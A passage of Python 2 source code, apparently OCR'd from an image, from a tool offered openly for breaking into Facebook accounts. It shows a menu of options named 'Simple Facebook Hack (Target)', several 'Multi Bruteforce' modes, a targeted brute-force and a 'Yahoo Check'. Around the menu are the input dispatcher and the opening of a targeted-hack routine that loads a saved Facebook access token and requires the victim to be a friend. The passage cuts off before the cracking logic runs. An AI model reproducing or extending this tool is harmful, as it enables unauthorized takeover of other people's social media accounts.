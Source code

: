 		print"\033[1;91m[✖] No connection"
		exit()

##### MENU HACK #####
def menu_hack():
	os.system('clear')
	try:
		fb_token=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	os.system('clear')
	print logo
	print "\033[1;97m║--\033[1;91m> \033[1;92m1.\033[1;97m Simple Facebook Hack(\033[1;92mTarget\033[1;97m)"
	print "\033[1;97m║--\033[1;91m> \033[1;92m2.\033[1;97m Facebook Multi Bruteforce"
	print "\033[1;97m║--\033[1;91m> \033[1;92m3.\033[1;97m Strong Facebook Multi Bruteforce "
	print "\033[1;97m║--\033[1;91m> \033[1;92m4.\033[1;97m Facebook BruteForce(\033[1;92mTarget\033[1;97m)"
	print "\033[1;97m║--\033[1;91m> \033[1;92m5.\033[1;97m Yahoo Check"
	print "\033[1;97m║--\033[1;91m> \033[1;91m0.\033[1;97m Back"
	print "║"
	choose_hack()
#----choices
def choose_hack():
	hack = raw_input("\033[1;97m╚═\033[1;91m>>> \033[1;97m")
	if hack=="":
		print "\033[1;91m[!] Wrong input"
		choose_hack()
	elif hack =="1":
		mini()
	elif hack =="2":
		crack()
		success()
	elif hack =="3":
		super()
	elif hack =="4":
		brute()
	elif hack =="5":
		menu_yahoo()
	elif hack =="0":
		menu()
	else:
		print "\033[1;91m[!] Wrong input"
		choose_hack()

##### MINI HF #####
def mini():
	os.system('clear')
	try:
		fb_token=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	os.system('clear')
	print logo
	print "\033[1;97m[\033[1;91mINFO\033[1;97m] \033[1;91mThe target account must be friends\n       with your account first!"
	print 42*"\033[1;97m═"
	try: